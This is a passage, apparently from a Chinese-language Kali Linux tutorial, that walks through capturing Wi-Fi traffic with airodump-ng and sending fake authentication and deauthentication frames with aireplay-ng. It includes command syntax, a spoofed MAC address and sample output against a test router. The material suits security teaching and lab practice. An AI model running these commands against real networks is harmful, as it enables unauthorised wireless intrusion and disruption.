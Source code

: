 *   Lost：在过去 10 秒钟内丢失的数据分组，基于序列号检测。它意味着从客户端来的数据丢包，每个非管理帧中都有一个序列号字段，把刚接收到的那个帧中的序列号和前一个帧中的序列号一减就能知道丢了几个包。
*   Frames：客户端发送的数据分组数量。
*   Probe：被客户端查探的 ESSID。如果客户端正试图连接一个无线，但是没有连接上，那么就显示在这里。

（5）使用 airodump-ng 捕获指定 BSSID 的文件。执行命令如下所示。

airodump-ng 命令常用的选项如下所示。

*   -c：指定选择的频道。
*   -w：指定一个文件名，用于保存捕获的数据。
*   -bssid：指定攻击的 BSSID。

下面将 Bssid 为 14:E6:E4:AC:FB:20 的无线路由器作为攻击目标。执行命令如下所示：

![286-01](img/00438.jpg)

从输出的信息中可以看到 ESSID 为 Test 无线路由器的#Data 一直在变化，表示有客户端正与无线发生数据交换。以上命令执行成功后，会生成一个名为 wirelessattack-01.ivs 的文件，而不是 wirelessattack.ivs。这是因为 airodump-ng 工具为了方便后面破解的时候调用，所有对保存文件按顺序编了号，于是就多了-01 这样的序号，以此类推。在进行第二次攻击时，若使用同样文件名 wirelessattack 保存的话，就会生成名为 wirelessattack-02.ivs 文件。

（6）打开一个新的终端窗口，运行 aireplay 命令。aireplay 命令的语法格式如下所示：

```
aireplay-ng -1 0 -a [BSSID] -h [our Chosen MAC address] -e [ESSID] [Interface]
aireplay-ng -dauth 1 -a [BSSID] -c [our Chosen MAC address] [Interface] 
```

启动 aireplay，执行命令如下所示：

```
root@kali:~# aireplay-ng -1 0 -a 14:E6:E4:AC:FB:20 -h 00:11:22:33:44:55 -e Test mon0
The interface MAC (00:C1:40:76:05:6C) doesn't match the specified MAC (-h).
  ifconfig mon0 hw ether 00:11:22:33:44:55
17:25:17 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
17:25:17 Sending Authentication Request (Open System) [ACK]
17:25:17 Switching to shared key authentication
17:25:19 Sending Authentication Request (Shared Key) [ACK]
17:25:19 Switching to shared key authentication
17:25:21 Sending Authentication Request (Shared Key) [ACK]
17:25:21 Switching to shared key authentication
17:25:23 Sending Authentication Request (Shared Key) [ACK]
17:25:23 Switching to shared key authentication
17:25:25 Sending Authentication Request (Shared Key) [ACK]
17:25:25 Switching to shared key authentication
17:25:27 Sending Authentication Request (Shared Key) [ACK]
17:25:27 Switching to shared key authentication
17:25:29 Sending Authentication Request (Shared Key) [ACK]
17:25:29 Switching to shared key authentication 
```
